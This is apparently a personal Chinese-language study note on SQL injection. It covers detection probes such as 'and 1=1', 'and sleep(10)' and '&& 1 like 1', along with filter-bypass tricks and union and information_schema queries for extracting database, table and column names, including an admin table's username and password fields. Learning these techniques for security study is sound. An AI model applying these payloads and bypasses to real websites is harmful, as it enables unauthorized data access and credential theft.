 #   SQL注入

本质：将用户输入的信息当作sql代码进行代码执行
注入的本质：

xss：用户输入的信息当作前端代码执行

xxe：用户输入的信息当作xml代码执行

命令执行：用户输入信息当作系统命令执行

满足条件

* 用户可以控制输入
* 原本程序的代码拼接了用户的输入再次进行执行

owasp top 10:每年的漏洞排名

随着get传参的不同，页面的内容也会跟着改变

SQL注入：

* 检测漏洞是否存在
* 利用漏洞

可以利用：select*from news where id = 2-1 如果页面显示为1那么这个网站就存在sql注入漏洞

1,通过运算检测sql漏洞的方法

​	and 1=1 , and 1=2（99%会被拦截）

​	and -1=-1

​	通过&&符号绕过and

​	通过like或or绕过=

​	&& 1 like 1

​	&& -1 like -1

​	&& 1 or 1

​	传参强转

2,通过sleep函数检测

​	and sleep(10)

​	若果网页图标旋转载入不了，时间较长说明此网站有sql注入漏洞

### 利用漏洞拿信息

* union => 联合输出：将两条sql语句的结果一起输出 （满足条件：相同字段）
  * ?id=9.999999 union select 1,2
  * 数据库会输出2
  * 数据库会选择性输出
  * union select 1,database()
  * 数据库就会输出当前数据库的名称
  * <img src="/Users/yan/Desktop/截屏2021-07-25 下午1.43.11.png" alt="截屏2021-07-25 下午1.43.11" style="zoom:50%;" />
* order by =>查看有几个字段
  * order by 1
  * order by 2
  * order by 3（到3时不正常了就说明只有两个字段）
  * ID都是正整数类型（int）
  * 数据库可以选择性输出
* information_schema=>information_schema这个数据库中存放着数据库和数据表的关联
  * Table_name from information_schema.tables where table_schame=database()
  * 输出所在数据库maoshe中的表名
  * information_schema.columns 
    * 数据库中的表中的字段的名称
    * union select1.column_name from information_schema.columns where table_name='admin'and table_schema=database() limit 1,1
    * 查询字段名称
    * limit 1,1
    * limit 2,1
    * limit 3,1
    * <img src="/Users/yan/Desktop/截屏2021-07-25 下午9.08.52.png" alt="截屏2021-07-25 下午9.08.52" style="zoom:50%;" />
    * 通过语句查询到了三个字段
    * id username password

* limit=>分页
  * limit n,n 从n+1开始取m条数据
  * limit 0,10 从1开始取，取10条数据
* Database=>显示当前数据库的库名=>mash







# 总结

1，检查网页是否存在漏洞

2，利用漏洞

* order by（知道字段数）union 
* information_schema 查询库表字段